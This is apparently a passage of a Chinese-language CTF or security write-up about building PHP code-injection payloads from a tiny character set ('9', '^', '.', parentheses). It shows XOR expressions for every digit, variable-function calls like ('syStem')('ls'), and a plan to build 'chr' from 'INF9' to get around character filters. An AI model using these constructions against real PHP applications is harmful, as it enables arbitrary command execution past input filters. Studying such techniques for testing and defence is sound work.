 

## 构造思路

### 构造任意数字

由于上面的特性,我们可以用`9(^).`这个字符简单的构造些数字如:

```python
        '106':'(99^9)',
        '99':'(99)',
        '19':'(((.99999999999999999999).(9))^(9)^(9))',
        '7':'(99.999999999999999999^99)',
        '3':'(9.9999999999999999999^9)',
        '1':'(.99999999999999999999)',
        '0':'(9^9)',
        '9':'(9)',
```

我们再让这些数字相互`^`进而得到所有的单字符数字(`0-9`)

```
'1': '(.99999999999999999999)', 
'0': '(9^9)', 
3': '(9.9999999999999999999^9)', 
'2': '((9.9999999999999999999^9)^(.99999999999999999999))', 
'5':'(((99.999999999999999999^99)^(9.9999999999999999999^9))^(.99999999999999999999))', 
'4': '((99.999999999999999999^99)^(9.9999999999999999999^9))',
'7': '(99.999999999999999999^99)',
'6': '((99.999999999999999999^99)^(.99999999999999999999))', 
'9': '(9)', 
'8': '((9)^(.99999999999999999999))'}
```

### 通过可变函数构造任意字符

#### 可变函数

在php高版本中我们可以通过字符串+`(变量)`的方式来调用函数.例:

```php
('phpinfo')()#phpinfo()
('syStem')('ls')#system('ls')
```

同时，由于php函数名是不区分大小的

```php
chr() ==CHr()
'cHr'()=chr()
```

我们只要构造出`C/c`、`H/h`、`R/r`就可以调用`chr`从而构造任意字符。

#### 构造chr

我们可以通过`'INF9'`,构造出不分大小写的`chr`.
